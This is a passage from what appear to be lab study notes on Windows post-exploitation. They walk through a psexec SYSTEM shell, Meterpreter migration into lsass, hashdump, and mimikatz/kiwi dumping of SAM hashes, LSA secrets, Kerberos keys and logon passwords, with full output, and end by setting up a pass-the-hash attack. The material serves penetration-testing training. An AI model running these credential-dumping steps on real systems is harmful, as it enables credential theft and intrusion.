[*] Uploading file AZZOIRHH.exe
[*] Opening SVCManager on 10.4.24.224.....
[*] Creating service OSiy on 10.4.24.224.....
[*] Starting service OSiy.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1457]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

```


---

#### Dumping Hashes With Mimikatz

- Mimikatz is a Windows post-exploitation tool written by Benjamin Delpy (@gentilkiwi). It allows for the extraction of clear-text passwords, hashes and Kerberos tickets from memory.
- The SAM (Security Account Manager) database, is a database file on Windows systems that stores hashed user passwords.
- Mimikatz can be used to extract hashes from the lsass.exe process memory where hashes are cached.
- We can utilize the pre-compiled mimikatz executable, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension Kiwi.
  **Note:** Mimikatz will require elevated (administrative) privileges in order to run correctly


**migrate with lsass process**

```bash
meterpreter > sysinfo 
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > hashdump 
[-] 2007: Operation failed: The parameter is incorrect.

meterpreter > pgrep lsass
788

meterpreter > migrate 788
[*] Migrating from 368 to 788...
[*] Migration completed successfully.

meterpreter > sysinfo 
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM

meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1008:aad3b435b51404eeaad3b435b51404ee:bd4ca1fbe028f3c5066467a7f6a73b0b:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::

```


**Dumping Hashes With kiwi**

load kiwi to meterpreter shell after migrating with lsass process and get high privileges

```bash
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.


meterpreter > creds_all 
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain         NTLM                              SHA1
--------       ------         ----                              ----
Administrator  ATTACKDEFENSE  e3c61a68f1b89ee6c8ba9507378dc88d  fa62275e30d286c09d30d8fece82664eb34323ef

wdigest credentials
===================

Username        Domain         Password
--------        ------         --------
(null)          (null)         (null)
ATTACKDEFENSE$  WORKGROUP      (null)
Administrator   ATTACKDEFENSE  (null)

kerberos credentials
====================

Username        Domain         Password
--------        ------         --------
(null)          (null)         (null)
Administrator   ATTACKDEFENSE  (null)
attackdefense$  WORKGROUP      (null)

==============================================================================================================================
==============================================================================================================================

meterpreter > lsa_dump_sam 
[+] Running as SYSTEM
[*] Dumping SAM
Domain : ATTACKDEFENSE
SysKey : 377af0de68bdc918d22c57a263d38326
Local SID : S-1-5-21-3688751335-3073641799-161370460

SAMKey : 858f5bda5c99e45094a6a1387241a33d

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: e3c61a68f1b89ee6c8ba9507378dc88d

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 58f8e0214224aebc2c5f82fb7cb47ca1

RID  : 000003f0 (1008)
User : student
  Hash NTLM: bd4ca1fbe028f3c5066467a7f6a73b0b
===============================================================================================================================
===============================================================================================================================
meterpreter > lsa_dump_secrets 
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : ATTACKDEFENSE
SysKey : 377af0de68bdc918d22c57a263d38326

Local name : ATTACKDEFENSE ( S-1-5-21-3688751335-3073641799-161370460 )
Domain name : WORKGROUP

Policy subsystem is : 1.18
LSA Key(s) : 1, default {47980b9c-8bd1-89c9-bfb5-0c4fca25e625}
  [00] {47980b9c-8bd1-89c9-bfb5-0c4fca25e625} 247e7be223db5e50291fc0fcec276ff8236c32a8a6183c5a0d0b6b044590ce06

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 34 5e 65 80 f9 04 a4 8c a5 0e 6c 74 6c d2 c3 b8 8e 7a ca c3 a3 3b 0e 6e 0a 64 f3 12 fc c7 92 67 a3 2f d5 d1 e4 41 33 ac 
    full: 345e6580f904a48ca50e6c746cd2c3b88e7acac3a33b0e6e0a64f312fcc79267a32fd5d1e44133ac
    m/u : 345e6580f904a48ca50e6c746cd2c3b88e7acac3 / a33b0e6e0a64f312fcc79267a32fd5d1e44133ac
old/hex : 01 00 00 00 c1 3a 28 e3 94 7b 64 5d 94 29 b4 c9 1c 9b 0c b1 b6 5a aa 2c 34 4d ee ed 86 74 0f 12 25 37 8c 38 69 b3 b4 53 b6 37 86 44 
    full: c13a28e3947b645d9429b4c91c9b0cb1b65aaa2c344deeed86740f1225378c3869b3b453b6378644
    m/u : c13a28e3947b645d9429b4c91c9b0cb1b65aaa2c / 344deeed86740f1225378c3869b3b453b6378644

Secret  : NL$KM
cur/hex : 8d d2 8e 67 54 58 89 b1 c9 53 b9 5b 46 a2 b3 66 d4 3b 95 80 92 7d 67 78 b7 1d f9 2d a5 55 b7 a3 61 aa 4d 86 95 85 43 86 e3 12 9e c4 91 cf 9a 5b d8 bb 0d ae fa d3 41 e0 d8 66 3d 19 75 a2 d1 b2 
old/hex : 8d d2 8e 67 54 58 89 b1 c9 53 b9 5b 46 a2 b3 66 d4 3b 95 80 92 7d 67 78 b7 1d f9 2d a5 55 b7 a3 61 aa 4d 86 95 85 43 86 e3 12 9e c4 91 cf 9a 5b d8 bb 0d ae fa d3 41 e0 d8 66 3d 19 75 a2 d1 b2 


```


**Dumping Hashes With with mimikatz**

```bash
meterpreter > cd C:\\
meterpreter > mkdir Temp
Creating directory: Temp
meterpreter > cd Temp 
meterpreter > pwd
C:\Temp
meterpreter > upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
[*] uploading  : /usr/share/windows-resources/mimikatz/x64/mimikatz.exe -> mimikatz.exe
[*] Uploaded 1.25 MiB of 1.25 MiB (100.0%): /usr/share/windows-resources/mimikatz/x64/mimikatz.exe -> mimikatz.exe
[*] uploaded   : /usr/share/windows-resources/mimikatz/x64/mimikatz.exe -> mimikatz.exe
meterpreter > shell
Process 1540 created.
Channel 2 created.
Microsoft Windows [Version 10.0.17763.1457]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9E32-0E96

 Directory of C:\Temp

01/22/2024  07:00 PM    <DIR>          .
01/22/2024  07:00 PM    <DIR>          ..
01/22/2024  07:00 PM         1,309,448 mimikatz.exe
               1 File(s)      1,309,448 bytes
               2 Dir(s)  15,983,468,544 bytes free

C:\Temp>.\mimikatz.exe
.\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

```

`Privilege '20' OK` it means we have the appropriate  privilege to perform hash extraction from memory


dump sam file

```bash
mimikatz # lsadump::sam
Domain : ATTACKDEFENSE
SysKey : 377af0de68bdc918d22c57a263d38326
Local SID : S-1-5-21-3688751335-3073641799-161370460

SAMKey : 858f5bda5c99e45094a6a1387241a33d

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: e3c61a68f1b89ee6c8ba9507378dc88d

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : ed1f5e64aad3727f03522bbddc080d77

* Primary:Kerberos-Newer-Keys *
    Default Salt : ATTACKDEFENSEAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : f566d48c0c62f88d997e9e56b52eed1696aead09df3100982bcfc5920655da5d
      aes128_hmac       (4096) : bf0ca9e206e82ce481c818070bef0855
      des_cbc_md5       (4096) : 6d570d08df8979fe
    OldCredentials
      aes256_hmac       (4096) : 69d101a02f3f4648bf9875f10c1cd268d3f500c3253ab862222a9e1bb3740247
      aes128_hmac       (4096) : 3c3fd899f7f004ed44e9e48f868a5ddc
      des_cbc_md5       (4096) : 9b808fb9e0cbb3b5
    OlderCredentials
      aes256_hmac       (4096) : 4cbbe8ad8482ca76952b08cd9103ba91af35c9d8b21a3d49c332e072618a9fa9
      aes128_hmac       (4096) : b18addd75f8a2b106b262c7b5e517623
      des_cbc_md5       (4096) : 7fe0c2a15eb32fcd

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : ATTACKDEFENSEAdministrator
    Credentials
      des_cbc_md5       : 6d570d08df8979fe
    OldCredentials
      des_cbc_md5       : 9b808fb9e0cbb3b5


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 58f8e0214224aebc2c5f82fb7cb47ca1

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : a1528cd40d99e5dfa9fa0809af998696

* Primary:Kerberos-Newer-Keys *
    Default Salt : WDAGUtilityAccount
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 3ff137e53cac32e3e3857dc89b725fd62ae4eee729c1c5c077e54e5882d8bd55
      aes128_hmac       (4096) : 15ac5054635c97d02c174ee3aa672227
      des_cbc_md5       (4096) : ce9b2cabd55df4ce

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WDAGUtilityAccount
    Credentials
      des_cbc_md5       : ce9b2cabd55df4ce


RID  : 000003f0 (1008)
User : student
  Hash NTLM: bd4ca1fbe028f3c5066467a7f6a73b0b

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : b8e5edf45f3a42335f1f4906a24a08fe

* Primary:Kerberos-Newer-Keys *
    Default Salt : EC2AMAZ-R69684Tstudent
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : bab064fdaf62216a1577f1d5cd88e162f6962b4a421d199adf4c66b61ec6ac7c
      aes128_hmac       (4096) : 42bc1d17d1236d3afc09efbeba547d2c
      des_cbc_md5       (4096) : 1a975b02a7bf15d5

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : EC2AMAZ-R69684Tstudent
    Credentials
      des_cbc_md5       : 1a975b02a7bf15d5


```


**dump lsa secrets with mimikatz**

```bash
mimikatz # lsadump::secrets
Domain : ATTACKDEFENSE
SysKey : 377af0de68bdc918d22c57a263d38326

Local name : ATTACKDEFENSE ( S-1-5-21-3688751335-3073641799-161370460 )
Domain name : WORKGROUP

Policy subsystem is : 1.18
LSA Key(s) : 1, default {47980b9c-8bd1-89c9-bfb5-0c4fca25e625}
  [00] {47980b9c-8bd1-89c9-bfb5-0c4fca25e625} 247e7be223db5e50291fc0fcec276ff8236c32a8a6183c5a0d0b6b044590ce06

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 34 5e 65 80 f9 04 a4 8c a5 0e 6c 74 6c d2 c3 b8 8e 7a ca c3 a3 3b 0e 6e 0a 64 f3 12 fc c7 92 67 a3 2f d5 d1 e4 41 33 ac 
    full: 345e6580f904a48ca50e6c746cd2c3b88e7acac3a33b0e6e0a64f312fcc79267a32fd5d1e44133ac
    m/u : 345e6580f904a48ca50e6c746cd2c3b88e7acac3 / a33b0e6e0a64f312fcc79267a32fd5d1e44133ac
old/hex : 01 00 00 00 c1 3a 28 e3 94 7b 64 5d 94 29 b4 c9 1c 9b 0c b1 b6 5a aa 2c 34 4d ee ed 86 74 0f 12 25 37 8c 38 69 b3 b4 53 b6 37 86 44 
    full: c13a28e3947b645d9429b4c91c9b0cb1b65aaa2c344deeed86740f1225378c3869b3b453b6378644
    m/u : c13a28e3947b645d9429b4c91c9b0cb1b65aaa2c / 344deeed86740f1225378c3869b3b453b6378644

Secret  : NL$KM
cur/hex : 8d d2 8e 67 54 58 89 b1 c9 53 b9 5b 46 a2 b3 66 d4 3b 95 80 92 7d 67 78 b7 1d f9 2d a5 55 b7 a3 61 aa 4d 86 95 85 43 86 e3 12 9e c4 91 cf 9a 5b d8 bb 0d ae fa d3 41 e0 d8 66 3d 19 75 a2 d1 b2 
old/hex : 8d d2 8e 67 54 58 89 b1 c9 53 b9 5b 46 a2 b3 66 d4 3b 95 80 92 7d 67 78 b7 1d f9 2d a5 55 b7 a3 61 aa 4d 86 95 85 43 86 e3 12 9e c4 91 cf 9a 5b d8 bb 0d ae fa d3 41 e0 d8 66 3d 19 75 a2 d1 b2 


```


**display logon passwords**

if the system is configured to store logon password in memory in cleartext, mimikatz can extract them

```bash
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 2422124 (00000000:0024f56c)
Session           : Interactive from 3
User Name         : DWM-3
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/22/2024 6:33:00 PM
SID               : S-1-5-90-0-3
	msv :	
	tspkg :	
	wdigest :	
	 * Username : ATTACKDEFENSE$
	 * Domain   : WORKGROUP
	 * Password : (null)
	kerberos :	
	ssp :	
	credman :	

Authentication Id : 0 ; 2422015 (00000000:0024f4ff)
Session           : Interactive from 3
User Name         : DWM-3
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/22/2024 6:33:00 PM
SID               : S-1-5-90-0-3
	msv :	
	tspkg :	
	wdigest :	
	 * Username : ATTACKDEFENSE$
	 * Domain   : WORKGROUP
	 * Password : (null)
	kerberos :	
	ssp :	
	credman :	

Authentication Id : 0 ; 2411085 (00000000:0024ca4d)
Session           : Interactive from 3
User Name         : UMFD-3
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/22/2024 6:32:59 PM
SID               : S-1-5-96-0-3
	msv :	
	tspkg :	
	wdigest :	
	 * Username : ATTACKDEFENSE$
	 * Domain   : WORKGROUP
	 * Password : (null)
	kerberos :	
	ssp :	
	credman :	

Authentication Id : 0 ; 58742 (00000000:0000e576)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/22/2024 6:30:45 PM
SID               : S-1-5-90-0-1
	msv :	
	tspkg :	
	wdigest :	
	 * Username : ATTACKDEFENSE$
	 * Domain   : WORKGROUP
	 * Password : (null)
	kerberos :	
	ssp :	
	credman :	

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : ATTACKDEFENSE$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 1/22/2024 6:30:44 PM
SID               : S-1-5-20
	msv :	
	tspkg :	
	wdigest :	
	 * Username : ATTACKDEFENSE$
	 * Domain   : WORKGROUP
	 * Password : (null)
	kerberos :	
	 * Username : attackdefense$
	 * Domain   : WORKGROUP
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 28279 (00000000:00006e77)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 1/22/2024 6:30:43 PM
SID               : 
	msv :	
	tspkg :	
	wdigest :	
	kerberos :	
	ssp :	
	credman :	

Authentication Id : 0 ; 150552 (00000000:00024c18)
Session           : Interactive from 1
User Name         : Administrator
Domain            : ATTACKDEFENSE
Logon Server      : ATTACKDEFENSE
Logon Time        : 1/22/2024 6:30:53 PM
SID               : S-1-5-21-3688751335-3073641799-161370460-500
	msv :	
	 [00000003] Primary
	 * Username : Administrator
	 * Domain   : ATTACKDEFENSE
	 * NTLM     : e3c61a68f1b89ee6c8ba9507378dc88d
	 * SHA1     : fa62275e30d286c09d30d8fece82664eb34323ef
	tspkg :	
	wdigest :	
	 * Username : Administrator
	 * Domain   : ATTACKDEFENSE
	 * Password : (null)
	kerberos :	
	 * Username : Administrator
	 * Domain   : ATTACKDEFENSE
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 1/22/2024 6:30:45 PM
SID               : S-1-5-19
	msv :	
	tspkg :	
	wdigest :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	kerberos :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 58761 (00000000:0000e589)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/22/2024 6:30:45 PM
SID               : S-1-5-90-0-1
	msv :	
	tspkg :	
	wdigest :	
	 * Username : ATTACKDEFENSE$
	 * Domain   : WORKGROUP
	 * Password : (null)
	kerberos :	
	ssp :	
	credman :	

Authentication Id : 0 ; 29374 (00000000:000072be)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/22/2024 6:30:44 PM
SID               : S-1-5-96-0-1
	msv :	
	tspkg :	
	wdigest :	
	 * Username : ATTACKDEFENSE$
	 * Domain   : WORKGROUP
	 * Password : (null)
	kerberos :	
	ssp :	
	credman :	

Authentication Id : 0 ; 29346 (00000000:000072a2)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/22/2024 6:30:44 PM
SID               : S-1-5-96-0-0
	msv :	
	tspkg :	
	wdigest :	
	 * Username : ATTACKDEFENSE$
	 * Domain   : WORKGROUP
	 * Password : (null)
	kerberos :	
	ssp :	
	credman :	

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : ATTACKDEFENSE$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 1/22/2024 6:30:43 PM
SID               : S-1-5-18
	msv :	
	tspkg :	
	wdigest :	
	 * Username : ATTACKDEFENSE$
	 * Domain   : WORKGROUP
	 * Password : (null)
	kerberos :	
	 * Username : attackdefense$
	 * Domain   : WORKGROUP
	 * Password : (null)
	ssp :	
	credman :	


```

the server is configured well and not display any cleartext password 


---

#### Pass-The-Hash Attacks    

**perform Pass-The-Hash attack with psexec metasploit module**

we need LM hash and NTLM hash also

```bash
meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1008:aad3b435b51404eeaad3b435b51404ee:bd4ca1fbe028f3c5066467a7f6a73b0b:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::


user:SID:LMhash:NTLMhash
```


**References**

- https://tbhaxor.com/exploit-webdav-using-metasploit/
- https://learn.microsoft.com/en-us/windows-hardware/manufacture/desktop/update-windows-settings-and-scripts-create-your-own-answer-file-sxs?view=windows-11